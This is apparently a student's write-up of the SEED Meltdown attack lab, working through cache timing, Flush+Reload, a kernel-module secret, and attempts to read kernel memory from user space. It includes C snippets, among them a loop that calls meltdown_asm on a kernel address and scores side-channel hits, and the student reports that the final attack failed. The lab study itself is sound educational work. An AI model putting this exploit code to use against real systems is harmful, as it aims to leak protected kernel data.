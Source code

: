 ## Task 1: Reading from Cache versus from Memory

command:

```spreadsheet
[06/03/20]seed@VM:.../Meltdown_Attack$ gcc -march=native CacheTime.c -o CacheTime
[06/03/20]seed@VM:.../Meltdown_Attack$ ./CacheTime
```

![image-20200603222001802](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200603222001802.png)

Is the access of array[3\*4096] and array[7*4096] faster than that of the other elements?

>  Yes

find a threshold that can be used to distinguish these two types of memory access

![image-20200603222314124](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200603222314124.png)



## Task 2: Using Cache as a Side Channel

Since no other block in task 1 takes less than 60 cycles, I think 60 would be a good threshold.

```spreadsheet
[06/03/20]seed@VM:~/Meltdown_Attack$ gcc -march=native -o FlushReload FlushReload.c
[06/03/20]seed@VM:~/Meltdown_Attack$ ./FlushReload
```

![image-20200603222943817](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200603222943817.png)

Run the program for at least 20 times, and count how many times you will get the secret correctly.

> I’ve run the program for 20 times, and all have right secret but have 3 times without getting the secret.
>
> I think it might be because that cached block would take more than 80 cycles, so I set the threshold as 100.
> After setting a looser bound, I have the right secret all the time.



## Task 3: Place Secret Data in Kernel Space

```shell
$ make
$ sudo insmod MeltdownKernel.ko
$ dmesg | grep secret
```

![image-20200603225314649](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200603225314649.png)

![image-20200603225351889](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200603225351889.png)

Because of something unknown the command `dmesg | grep ’secret data address’` doesn't work, but I can get the address using the command `dmesg`.

![image-20200604142216107](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604142216107.png)

> but the command `dmesg | grep secret` works

## Task 4: Access Kernel Memory from User Space

Use the address obtained from the previous task to write a test program.

```c
#include<stdio.h>

int main(){
	printf("I have reached Line 0.\n");
	char *kernel_data_addr = (char*)0xf885b000;
	printf("I have reached Line 1.\n");
	char kernel_data = *kernel_data_addr;
	printf("I have reached Line 2.\n");
	return 0;
}
```



![image-20200604125550336](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604125550336.png)

Will the program succeed in Line 2? Can the program execute Line 2?

> The program would not reach Line 2. Because a process in user space cannot access kernel buffer.



## Task 5: Handle Error/Exceptions in C

Use the value that we got from task 3 to rewrite the address of `kernel_data_addr`  in file `ExceptionHandling.c`.

![image-20200604130519723](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604130519723.png)

Please run this code, and describe your observations.

> Even though there is an exception in the program. The program could still continue to execute.



## Task 6: Out-of-Order Execution by CPU

```spreadsheet
[06/04/20]seed@VM:~/Meltdown_Attack$ gcc -march=native -o MeltdownExperiment MeltdownExperiment.c
[06/04/20]seed@VM:~/Meltdown_Attack$ ./MeltdownExperiment
```

![image-20200604132522734](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604132522734.png)

In particular, please provide an evidence to show that Line 2 is actually executed.

> Even we are not allowed to access array[7 * 4096 +DELTA] , we know that the program tried to access it. Therefore we can know a secret 7.



## Task 7: The Basic Meltdown Attack

### Task 7.1: A Naive Approach

Simply replace the `array[7 * 4096 + DELTA] += 1;`  with `array[kernel_data * 4096 + DELTA] += 1;`

![img](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/JMMIRC]`$SW1`CTWU5I9U2E.png)



### Task 7.2: Improve the Attack by Getting the Secret Data Cached

Add the following code to get our secret data cached before the FLUSH-RELOAD attack:

```c
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
	perror("open");
	return -1;
}
int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
```

![img](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/`8AJ`Y{P@XGSK97%PIEX}NJ.png)

> I still failed the attack.



### Task 7.3: Using Assembly Code to Trigger Meltdown

Use the value that we got from task 3 to rewrite the parameter of `meltdown_asm` .

```spreadsheet
[06/04/20]seed@VM:~/Meltdown_Attack$ gcc -march=native -o task73 task73.c
[06/04/20]seed@VM:~/Meltdown_Attack$ ./task73
```

![image-20200604152529089](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604152529089.png)

> Somehow, it still fails to steal the actual secret value. Even though I tried many times and modified the loop number.



## Task 8: Make the Attack More Practical

> I ran the program `MeltdownAttack` but still failed.

![image-20200604151956066](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604151956066.png)



> I rewrite the code and save it as `Final.c`, it can output  8 results but the right word still do not appear.

```c
for (int k = 0; k < 8; k++)
{
    memset(scores, 0, sizeof(scores));
    flushSideChannel();
    // Retry 1000 times on the same address.
    for (i = 0; i < 1000; i++)
    {
        ret = pread(fd, NULL, 0, 0);
        if (ret < 0)
        {
            perror("pread");
            break;
        }
        // Flush the probing array
        for (j = 0; j < 256; j++)
            _mm_clflush(&array[j * 4096 + DELTA]);
        if (sigsetjmp(jbuf, 1) == 0)
        {
            meltdown_asm(0xf881c000 + k);
        }
        reloadSideChannelImproved();
    }
    // Find the index with the highest score.
    int max = 0;
    for (i = 0; i < 256; i++)
    {
        if (scores[max] < scores[i])
            max = i;
    }
    printf("The secret value is %d %c\n", max, max);
    printf("The number of hits is %d\n", scores[max]);
}
```

![image-20200604152242616](Lab5-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604152242616.png)



Now that the right result cannot be got, I run the `CacheTime` again to check, but I find that the access of array[0\*4096] is even faster than array[3\*4096] and array[7*4096] sometimes, so in the task 7 & 8 the secret value is always 0. 


